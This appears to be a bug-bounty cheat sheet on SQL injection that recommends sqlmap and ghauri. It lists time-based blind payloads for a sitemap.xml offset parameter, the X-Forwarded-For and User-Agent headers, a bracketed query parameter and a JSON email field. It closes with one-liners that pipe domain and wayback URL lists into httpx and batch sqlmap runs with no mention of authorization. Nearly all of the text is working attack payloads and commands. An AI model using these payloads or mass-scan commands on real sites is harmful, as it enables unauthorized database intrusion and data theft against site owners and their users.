 ##### TOOLS
- sqlmap
- ghauri ==> this is best



##### SITEMAP
- sitemap.xml is present? . Try setting ?offset=1 parameter and if content changes, run sqlmap or ghauri   
- payload for sitemap.xml ==>             target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#   ==> output time should be 9
- ```` sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"````

##### X-FORWARDED-FOR AND USER-AGENT
- X-Forwarded-For: ```` 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z````
- User-Agent: ````"XOR(if(now()=sysdate(),sleep(6),0))XOR"````

###### TIP: if login page is built with php , use user-agent payload

##### IN PARAMETER
- testing in ?parameter=test by replacing below payload 
  ````?parameter[id) VALUES (NULL); WAITFOR DELAY '0:0:5';--]=test````
- sql injection in email parameter when email is send to check if it exists or not
   ```` 
   {“email”:”asd@a.com”}   response: {“code”:2002,”status”:200,”message”:”Email not found.”}
   {“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}   response:{“code”:0,”status”:200,”message”:”Successful”}	        Valid Delay: 8,696 milis

   `````



##### SQL IN MASS DOMAINS
````
cat domains.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(20),0))OR" -rt -timeout 20 -mrt '>20'
cat waybackurls.txt| grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

````


